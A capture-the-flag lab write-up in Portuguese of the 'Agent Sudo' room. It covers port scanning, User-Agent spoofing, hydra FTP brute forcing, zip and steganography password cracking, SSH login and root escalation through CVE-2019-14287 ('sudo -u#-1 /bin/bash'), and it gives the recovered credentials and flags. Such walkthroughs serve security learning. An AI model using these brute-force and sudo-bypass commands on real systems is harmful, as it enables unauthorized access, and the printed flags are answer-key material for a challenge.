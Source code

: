# Agent Sudo

## How many open ports?

- Escaneamento das portas
    
    ```bash
    nmap -sV -n 10.10.149.253
    ```
    
    ![Untitled](Untitled.png)
    
- `3`

## How you redirect yourself to a secret page?

- Na url `10.10.149.253`
    
    ![Untitled](Untitled%201.png)
    
- Vamos fazer uma requisição trocando o `User-Agent`
- Basta aperta `f12`, esse `User-Agent` fica na aba de `Network`
    
    ![Untitled](Untitled%202.png)
    
- Para fazer uma requisição trocando o `User-Agente` podemos usar tanto no BurpSuite quando no terminal, irei seguir usando no terminal
- Sintaxe usando com wget
    
    ```bash
    wget -U "agent" -L <IP/URL>
    wget --user-agent="agent" -L
    wget --header="User-Agent: agent" -L <IP/URL>
    ```
    
- Sintaxe usando curl
    
    ```bash
    curl -A "agent" -L <IP/URL>
    curl --user-agent "agent" -L <IP/URL>
    curl -H "User-Agent: agent" -L <IP/URL>
    ```
    
- Vou usar o curl
    
    ```bash
    curl -A "A" -L 10.10.149.253
    curl -A "B" -L 10.10.149.253
    curl -A "C" -L 10.10.149.253
    ```
    

## What is the agent name?

- Com o `User-Agent` `C` ele mostrou algo diferente
    
    ![Untitled](Untitled%203.png)
    
- Agora que temos um usuario e provavelmente uma senha fraca, vamos fazer um brute force no ftp
    
    ```bash
    hydra -l chris -P rockyou.txt ftp://10.10.149.253
    ```
    
    ![Untitled](Untitled%204.png)
    
- ftp user: `chris`
- ftp password: `crystal`

## Zip file password

- Login ftp
    
    ```bash
    ftp 10.10.149.253
    chris
    crystal
    ```
    
- Vamos baixar o conteudo que tem
    
    ```bash
    get To_agentJ.txt
    get cute-alien.jpg
    get cutie.png
    exit
    ```
    
- Vamos separar esse arquivos para outra pasta
    
    ```bash
    mkdir ftpchris
    mv To_agentJ.txt cute-alien.jpg cutie.png ftp
    cd ftpchris
    ```
    
- Vamos ver o conteúdo do txt
    
    ```bash
    cat To_agentJ.txt
    ```
    
- Bom parece que existe algum arquivo dentro de outro aqui
    
    ```bash
    exiftool cutie.png
    exiftool cute-alien.jpg
    strings cutie.png
    ```
    
    ![Untitled](Untitled%205.png)
    
- Parece que existe realmente um arquivo dentro de `cutie.png`
- Vamos extrair
    
    ```bash
    binwalk -e cutie.png
    cd _cutie.png.extracted
    ```
    
- Vamos extrair o arquivo `.zip`
    
    ```bash
    7z x 8702.zip
    ```
    
- Precisamos de uma senha, entao vamos usar o `john`
    
    ```bash
    ./john/run/zip2john 8702.zip > resul.txt
    ./john/run/john resul.txt --wordlist=/usr/share/wordlist/rockyou.txt
    ./john/run/john resul.txt --show
    ```
    
    ![Untitled](Untitled%206.png)
    
- `alien`

## steg password

- Vamos extrair o arquivo `.zip`
    
    ```bash
    7z x 8702.zip
    yes
    alien
    ```
    
    ![Untitled](Untitled%207.png)
    
- `QXJlYTUx`
- Parece estranho esse valor, vamos tentar decriptografar
    - [https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)
    
    ![Untitled](Untitled%208.png)
    
- `Area51`

## Who is the other agent (in full name)? // SSH password

- Agora tentar extrair do outro arquivo
    
    ```bash
    steghide extract -sf cute-alien.jpg
    Area51
    cat message.txt
    ```
    
    - User: `james`
    - Password: `hackerrules!`

## What is the user flag?

- Login ssh
    
    ```bash
    ssh james@10.10.215.225
    yes
    hackerrules~
    cat user_flag.txt
    ```
    
- `b03d975e8c92a7c04146cfa7a5a313c7`

## What is the incident of the photo called?

- Na dica fala isso “Reverse image and Foxnews.”
- Entao vamos fazer a pesquisa reversa dessa foto que esta na pasta
- Vamos baixar ela primeiro
- Pesquisando por “python simple web server”
    
    ```bash
    python3 -m http.server
    ```
    
- Agora vamos no browser ou pelo comando baixar a imagem
    
    ```bash
    wget 10.10.215.225:8000/Alien_autospy.jpg
    ```
    
- Agora pesquisando por “reverse image search”
    - [https://tineye.com/](https://tineye.com/)
    - Agora mandando essa foto para la
    - Entao procurando pelo site da dica “Foxnews”
- **`Filmmaker reveals how he faked infamous 'Roswell alien autopsy' footage in a London apartment`**

## (Format: CVE-xxxx-xxxx)

- No terminal que entramos
    
    ```bash
    su james
    hackerrules!
    sudo -l
    ```
    
- Temos o `/bin/bash` para usar, entao vamos pesquisar
    - (ALL, !root) /bin/bash: vulnerable exploit db
    - [https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)
- Vamos colocar o valor da CVE para ver se é mesmo
- `CVE-**2019-14287**`

## What is the root flag? // (Bonus) Who is Agent R?

- Lendo a CVE ele da um exemplo de usar esse comando
    - `sudo -u#-1 /bin/bash`
- Vamos usar ela
    
    ```bash
    sudo -u#-1 /bin/bash
    sudo su
    ```
    
- Na pasta `/root`
    
    ```bash
    cat /root/root.txt
    ```
    
- Flag: `b53a02f55b57d4439e3341834d70c062`
- User-Agent-Secret: `DesKel`